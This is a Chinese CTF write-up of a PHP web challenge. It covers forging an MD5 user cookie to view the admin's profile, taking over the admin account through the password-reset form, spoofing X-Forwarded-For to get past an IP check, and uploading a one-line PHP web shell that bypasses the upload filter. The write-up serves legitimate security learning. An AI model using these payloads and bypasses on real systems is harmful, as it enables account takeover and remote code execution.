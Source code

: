 # bug

## 解题思路：

- 打开网页，发现是一个用户登录页面，仍然先尝试能不能SQL注入： `' or 1=1 #` ，服务器无回复，说明不太行，但注意到get传参为 ： `module=login` ；同时在输入框下方还有 `register` 和 `findpwd` 两个选项，注册功能要求填写用户名，生日，密码以及地址，找回密码功能要求填写用户名，生日，以及地址。

- 先去注册，在注册页面同样尝试能否SQL注入，仍然不行，但注意到get传参变为 `module=register` 。

- 注册完成，登录进去后发现有五个选项卡，分别对应五个get参数： 没有module， `module=admin` , `module=member&uid=5` , `module=logout` 。

    其中 `module=admin` 选项卡要求我们具有管理员权限才可以浏览，  `module=member&uid=5` 显示了我们的注册信息（UID，用户名，生日，以及地址），这时考虑到：我们是否可以用admin的注册信息来修改admin的密码呢？

- 利用burp suite抓包，发现我们点击 `module=member&uid=5` 时，我们的包内对应内容如下：

    ```http
    GET /index.php?module=index&do=member&uid=5 HTTP/1.1
    ...
    Cookie: PHPSESSID=ho3cb5vcv50ac7vojv151relp7; user=5b3cec1e8447de26979d3b8250ff0b4d
    ```

    一开始我也不知道这个要怎么用，但是看了大佬的write up之后知道了，这个user其实是 `uid:用户名` 的组合体经过md5加密后的产物，那我们就随便在网上找一个md5加密网站，给他加密一下，再改一下uid：

    ```http
    GET /index.php?module=index&do=member&uid=1 HTTP/1.1
    ...
    Cookie: PHPSESSID=ho3cb5vcv50ac7vojv151relp7; user=4b9987ccafacb8d8fc08d22bbca797ba
    ```

    发给服务器，发现服务器真的回应了管理员的 `module=member` 界面：

    ```html
        <div class="wbox">
        <div class="switchTab clearfix">
            <a href="index.php" id="home">Home</a>
            <a href="index.php?module=admin">Manage</a>
            <a href="index.php?module=index&do=member&uid=5" id="member">Personal</a>
            <a href="index.php?module=index&do=newpwd" id="newpwd">Change Pwd</a>
            <a href="index.php?module=index&do=logout">Logout</a>
        </div>
        <div class="container">
            <table cellspacing="0" class="profileTable" cellpadding="0" border="0">
        <tr><td width="70">UID</td>
            <td>1</td>
        </tr>
        <tr><td width="70">Username</td>
            <td>admin</td>
        </tr>
        <tr><td width="70">Birthday</td>
            <td>1993/01/01</td>
        </tr>
        <tr><td width="70">Address</td>
            <td>福建省福州市闽侯县</td>
        </tr>
        </table>
            </div>
    </div>
    ```

    东西全拿到了，我们现在就回到 `findpwd` 页面去试试改管理员的密码，输入全部信息后，服务器成功让我们改密码了，我们直接改成 `123456`

    之后用 `admin` 和 `123456` 登录，成功，直奔 `module=admin` ，发现它说 `IP not allowed` ，那简单，抓包改成127.0.0.1：

    - `X-Forwarded-For: 127.0.0.1`

    服务器回应：

    ```html
    <div class="wbox">
	<div class="container">
		<p>Where Is The Flag?</p>
		<p style="font-size:100px">: )</p>
	</div>
    </div>
    <!-- index.php?module=filemanage&do=???-->
    </body>
    </html>
    ```

    告诉我们flag就在 `<!-- index.php?module=filemanage&do=???-->` 这个命令里

    这里我实在没想到要 `upload` ，只好看别人的writeup才知道。

        这里也是一个注意点：filemnage总共也就这几种：edit,dir,list,upload,delete ，多试试总能试出来的。

    访问 `index.php?module=filemanage&do=upload` ，发现是上传文件，这里的上传很恶心，一句话木马里包含了 `<?php ?> ` 的一概拦截，不让我们的上传文件里出现这个，而且要求我们必须上传格式为图片。

    看了大佬的笔记，发现可以用 php 文档中的 tag<scriptlanguage=”php”></script> 绕过 同时修改文件拓展 类型 和标签：

    ```http
    -----------------------------18467633426500
    Content-Disposition: form-data; name="upfile"; filename="index.php5"
    Content-Type: image/jpeg

    <script language="php">system($_GET[a]);</script>
    -----------------------------18467633426500--
    ```

    一个是伪造了 `Content-Type: image/jpeg` ，一个是伪造了 `"index.php5"` ，最后就是上传一句话木马 `<script language="php">system($_GET[a]);</script>` ，终于拿到了flag。

    ## 知识点：

    - MD5加密长度一般为16/32位长，对于该长度的密文应当提高警觉

    - Burp Suite抓包改包

    - “修改密码”功能不要求用户输入密码，因此可以尝试获取用户的其他信息（密保问题）来篡改其密码。

    - 文件操作filemanage常见的有 ： 上传 下载 查看 编辑 新建 删除等，其中上传（upload）被利用得最多，使用一句话木马向服务器植入后门。

    - `<scriptlanguage=”php”>...</script>` 等价于 `<?php ... ?>`

    - HTTP协议中 `--------------------64548`是自定义的分隔符，一般情况用一长串不会和业务数据重复的字符串表示 ，分割符前面需要加上--，最后的分隔符后面需要加上--。